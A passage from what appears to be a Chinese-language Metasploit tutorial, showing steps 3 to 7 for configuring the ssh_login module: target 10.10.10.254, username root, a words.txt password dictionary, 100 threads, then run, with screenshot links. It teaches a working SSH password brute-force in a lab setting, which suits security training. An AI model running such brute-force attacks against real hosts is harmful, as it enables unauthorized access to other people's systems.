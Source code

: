 #### （3）使用 set 命令设置目标地址范围。

 msf auxiliary(ssh_login) > set rhosts 10.10.10.254

![ppp-20231128191448663](../images/Metasploit-review/ppp-20231128191448663.png)

#### （4）使用 set 命令设置参数 username 的值。

在这里仅尝试用户名为 root 的情况，因此代码如下：

 msf auxiliary(ssh_login) > set username root

![ppp-20231128191528700](../images/Metasploit-review/ppp-20231128191528700.png)

#### （5）使用 set 命令设置参数 pass_file 的值。

将名称为 words.txt 的密码字典放在了桌面，因此代码如下：

 msf auxiliary(ssh_login) > set pass_file /root/Desktop/words.txt

![ppp-20231128191551676](../images/Metasploit-review/ppp-20231128191551676.png)

#### （6）使用 set 命令设置并发线程的数量。

 msf auxiliary(ssh_login) > set threads 100

![ppp-20231128191604997](../images/Metasploit-review/ppp-20231128191604997.png)

#### （7）使用 run 命令来执行扫描。

 msf auxiliary(ssh_login) > run

![ppp-20231128192402211](../images/Metasploit-review/ppp-20231128192402211.png)
